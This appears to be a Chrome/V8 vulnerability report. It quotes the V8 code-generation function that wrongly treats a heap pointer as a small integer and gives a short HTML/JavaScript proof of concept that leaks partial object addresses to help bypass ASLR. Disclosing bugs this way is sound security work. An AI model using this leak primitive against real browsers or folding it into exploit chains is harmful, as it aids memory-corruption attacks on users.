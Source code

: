 <b>VULNERABILITY DETAILS</b>
the value passed to function TwoByteSeqStringSetChar maybe not a smi but a HeapObject, simply casting a point to HeapObject to a smi lead to information leak.  
void FullCodeGenerator::EmitTwoByteSeqStringSetChar(CallRuntime* expr) {
  ZoneList<Expression*>* args = expr->arguments();
  DCHECK_EQ(3, args->length());

  Register string = rax;
  Register index = rbx;
  Register value = rcx;

  VisitForStackValue(args->at(0));        // index
  VisitForStackValue(args->at(1));        // value------> maybe point of heap object, i guess
  VisitForAccumulatorValue(args->at(2));  // string
  PopOperand(value);
  PopOperand(index);

  if (FLAG_debug_code) {
    __ Check(__ CheckSmi(value), kNonSmiValue);
    __ Check(__ CheckSmi(index), kNonSmiValue);
  }

  __ SmiToInteger32(value, value);        -----------> treat value as smi
  __ SmiToInteger32(index, index);

  if (FLAG_debug_code) {
    static const uint32_t two_byte_seq_type = kSeqStringTag | kTwoByteStringTag;
    __ EmitSeqStringSetCharCheck(string, index, value, two_byte_seq_type);
  }

  __ movw(FieldOperand(string, index, times_2, SeqTwoByteString::kHeaderSize),
          value);
  context()->Plug(rax);
}

by this bug, we can leak 16 bits of a point, it's will be useful to do locally heap spray in 64bits system to bypass ASLR.

the PoC is as follows:

<html>
<script>
var num = new Number(10);
Array.prototype.__defineGetter__(0,function(){
    return num;
})
Array.prototype.__defineSetter__(0,function(value){
})
var str=decodeURI("%E7%9A%84");
//in 32bit system, the leaked bits is [31..16] 
//in 64bit system, the leaked bits is [47..32] 
alert("partial address of object num is "+str.charCodeAt(0).toString(16));
</script>
</html>

a patch is also attach as file name patch

<b>VERSION</b>
Chrome Version: all
Operating System: all

<b>REPRODUCTION CASE</b>
<b>Please include a demonstration of the security bug, such as an attached</b>
<b>HTML or binary file that reproduces the bug when loaded in Chrome. PLEASE</b>
<b>make the file as small as possible and remove any content not required to</b>
<b>demonstrate the bug.</b>


